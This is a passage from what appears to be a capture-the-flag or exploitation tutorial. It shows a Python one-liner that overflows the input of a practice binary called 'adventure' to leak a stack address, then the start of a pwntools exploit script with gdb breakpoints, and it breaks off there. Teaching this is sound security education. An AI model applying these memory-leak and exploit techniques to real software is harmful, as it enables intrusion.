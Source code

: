 Try the command again, but modified to start with "help".

```bash
# Print 14 A's then switch back to reading from the keyboard
(python -c "print('help' + 'A'*10)"; cat) | ./adventure
```

![A screenshot of the adventure program being with input from the previously mentioned Python command. This time, the program does not terminate, but prints some random ASCII values, including some non-visible characters replaced with a question mark symbol.](./imgs/name-leaked-address.png "Program Leaking Address")

We can now see that some odd values were printed. This is actually the address being misinterpreted as a string! We have successfully leaked an address on the stack, but we need to be able to actually read the address for submission. There are a couple ways around this, but we will ultimately need to set up a script to do this for us, so let's begin writing an exploit script `exploit.py` using the python module `pwntools` and `IPython`.

```python
from pwn import *
import IPython

DEBUG = True

p = None

if DEBUG:
    p = gdb.debug('./adventure', '''
    break main
    break menuPrompt
    ''')
```